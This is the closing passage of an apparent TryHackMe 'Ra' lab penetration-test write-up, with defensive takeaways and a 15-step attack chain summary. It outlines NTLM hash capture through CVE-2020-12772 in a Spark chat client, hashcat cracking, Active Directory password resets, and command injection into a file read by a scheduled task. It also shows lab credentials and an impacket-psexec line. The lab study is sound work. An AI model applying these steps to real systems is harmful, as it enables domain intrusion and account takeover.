impacket-psexec 'A1GCH:A1NullSecure!@ra'
```


---

## 7. Conclusion

Ra strings together three distinct classes of failure into one full domain compromise:

- **Information disclosure in a custom web app** — a "secret" security-question answer was recoverable from a public image filename, turning a password-reset flow into an authentication bypass.
- **Unpatched third-party software** — an internal Spark IM client left on version 2.8.3 was vulnerable to CVE-2020-12772, letting a low-privileged user coerce another user's client into leaking NTLM authentication material simply by sending a chat message.
- **Overprivileged group membership + unsanitized scheduled-task input** — Account Operators membership allowed password resets on other standard users, and a scheduled maintenance script trusted an SMB-writable file as command input with no validation, turning file write access into arbitrary command execution as a privileged service account.

**Defensive takeaways:**
- Never derive security-question answers, tokens, or secrets from predictable/public identifiers such as filenames.
- Keep internal collaboration tools (Openfire/Spark and similar) patched; CVE-2020-12772-class client bugs are a reliable NTLM-capture vector that bypasses network-level SMB relay defenses.
- Restrict Account Operators membership to those who genuinely need it, and monitor for password resets performed by non-Domain-Admin accounts.
- Any scheduled task or script that reads attacker-writable input (files, shares, registry) must treat that input as untrusted and validate/sanitize it — never execute it as a raw command list.

---

## 8. Attack Chain Summary

1. Port scan reveals a full AD environment (`windcorp.thm` / `FIRE.windcorp.thm`) plus an internal Openfire/Spark IM stack.
2. Web app enumeration finds a password-reset flow and a staff directory of 3 employees.
3. An employee photo's filename (`lilyleAndSparky.jpg`) leaks the answer to the "favorite pet" security question.
4. Password reset takes over `lilyle` → `ChangeMe#1234`.
5. SMB access as `lilyle` → `Shared` share → **Flag 1**.
6. Spark 2.8.3 client identified as vulnerable to **CVE-2020-12772**.
7. Local Spark client patched to run, logged in as `lilyle`, Responder started on `tun0`.
8. A crafted `` tag sent in a chat message to `buse` forces an NTLM authentication attempt, captured by Responder.
9. Captured NetNTLMv2 hash cracked with `hashcat -m 5600` + rockyou → `buse : uzunLM+3131`.
10. WinRM shell as `buse` → **Flag 2**.
11. Group enumeration shows `buse` is a member of **Account Operators**.
12. Account Operators privilege used to reset `brittanycr`'s password.
13. `hosts.txt`, consumed by the privileged `checkservers.ps1` scheduled task, downloaded, poisoned with an injected `net user`/`net localgroup` command chain, and re-uploaded.
14. Scheduled task execution creates local Administrator `A1GCH`.
15. Full administrative access confirmed via `evil-winrm`, `xfreerdp`, and `impacket-psexec`.

---

*This writeup documents a penetration test performed against an intentionally vulnerable TryHackMe lab environment for educational purposes only. Do not use these techniques against any system you do not own or do not have explicit written authorization to test.*

**A1GCH ⚔ NullSecure**
